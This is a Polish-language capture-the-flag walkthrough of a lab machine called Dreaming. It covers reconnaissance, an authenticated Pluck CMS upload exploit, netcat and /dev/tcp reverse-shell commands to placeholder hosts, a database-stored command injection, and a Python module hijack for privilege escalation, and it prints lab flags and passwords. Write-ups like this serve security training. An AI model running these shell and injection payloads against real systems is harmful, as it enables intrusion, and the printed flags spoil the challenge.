# Dreaming v1.2
IP=10.10.223.148

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:
```sh
sudo nmap -sV -sC 10.10.223.148
```
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-26 13:46 EDT
Nmap scan report for 10.10.223.148
Host is up (0.099s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```
Port 80 (HTTP) jest najważniejszy ze względu na potencjalne zagrożenia bezpieczeństwa.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:



Jest to domyślna strona Apache 2. W źródle strony nie ma nic ciekawego. 
Przejdźmy do enumeracji subdomen przy pomocy narzędzia ffuf:
```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.223.148/FUZZ -c
```



Znaleźliśmy subdomenę app, na której znajduje się folder z aplikacją:



Po wejściu na stronę przechodzimy do zakładki admin, która przenosi nas do panelu logowania:





Logujemy się do systemu przy pomocy standardowych danych:

```
password:password
```



Widzimy, że aplikacja to Pluck 4.7.13. Sprawdzamy czy ta wersja jest podatna:

```
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)
```
```
CVE: 2020-29607
```

Jak widzimy, aplikacja jest podatna. Możemy zyskać RCE, czyli zdalnie wykonywać kod na serwerze. Pobieramy exploit, nadajemy mu uprawnienia i go uruchamiamy:
```
chmod +x 49909.py
```
```
python 49909.py 10.10.223.148 80 password /app/pluck-4.7.13
```
Uzyskujemy w ten sposób shella:



## Eksploitacja

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell, używając następującej komendy:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [IP] [Port] >/tmp/f
```
Następnie nasłuchujemy połączeń za pomocą narzędzia netcat:
```
nc -lvnp [Port]
```


## Zwiększenie poziomu uprawnień

### www-data -> lucien

Po otrzymaniu dostępu do serwera sprawdzamy katalog głowny, jednak nasze uprawnienia nie są wystarczające, aby otwierać znajdujące się tam pliki. Przeszukując system znajdujemy hasło użytkownika lucien w katalogu /opt:



```
HeyLucien#@1999!
```

Logujemy się na konto użytkownika lucien:

```
www-data@dreaming:/$ su lucien
Password: 
lucien@dreaming:/$ 
```

W katalogu domowym znajdujemy pierwsza flagę:
```
THM{TH3_L1BR4R14N}
```

### lucien -> death

Sprawdzamy jakie uprawnienia ma użytkownik lucien komendą sudo -l:

```
lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

A następnie odpalamy skrypt getDreams.py jako użytkownik death:
```
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```



W katalogu /opt znajdujemy plik o takiej samej nazwie:

```
lucien@dreaming:/opt$ cat getDreams.py 
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

Skrypt ten wykorzystuje bibliotekę DB do wysyłania zapytań i wyświetlania zawartości dwóch kolumn kolumn w formacie: {dreamer} + {dream}. W pliku .bash_history w katalogu domowym użytkownika lucien znaleźliśmy hasło użytkownika lucien, które można wykorzystać do zalogowania się do MYSQL:



```
plucien42DBPASSWORD
```

Zalogujmy się do bazy danych komedną:

```
mysql -u lucien -plucien42DBPASSWORD
```

Przeglądnijmy bazę danych:



Widzimy, że skrypt łączył zawartość kolumny dreamer z zawartością kolumny dream i je wypisywał. Możemy to wykorzystać dodając własny rząd komendą:

```
INSERT INTO dreams VALUE("death", "$(/bin/bash)");
```



Wychodzimy z MYSQL. Po wykonaniu skryptu getDreams.py uzyskujemy dostęp do użytkownika death:



W związku z tym, że shell użytkownika death jest mało stabilny zmieniamy uprawnienia pliku getDreams.py i wychodzimy:
```
chmod 777 getDream.py
```
```
exit
```

Teraz możemy wyświetlić plik getDreams.py w postaci jawnej i uzyskać hasło użytkownika death:



```
!mementoMORI666!
```

Zalogujmy się na konto użytkownika death:



W katalogu domowym znajdujemy drugą flagę:



```
THM{1M_TH3R3_4_TH3M}
```

### death -> morpheus

Sprawdzamy uprawnienia użytkownika death:




W katalogu domowym użytkownika morpheus znajdujemy dwa pliki:



Widzimy, że plik korzysta z modułu shutil. Sprawdżmy czy użytkownik death ma uprawnienia do jego modyfikacji:

```
find / -group death -type f 2>/dev/null
```



Widzimy, że jest to jedyny plik do którego użytkownik death ma dostęp:





Wgrajmy program pspy i odpalmy go jako użytkownik death:



Widzimy, że co minutę jest wykonywany plik restore.py przez program cron. 




Wykorzystajmy to i zróbmy reverse shella:



```
import os
os.system('bash -c "bash -i >& /dev/tcp/[IP]/[PORT] 0>&1"')
```
```
nc -lvnp [PORT]
```



W katalogu domowym znajdujemy trzecią flagę:



Do zobaczenia na kolejnych CTF-ach!
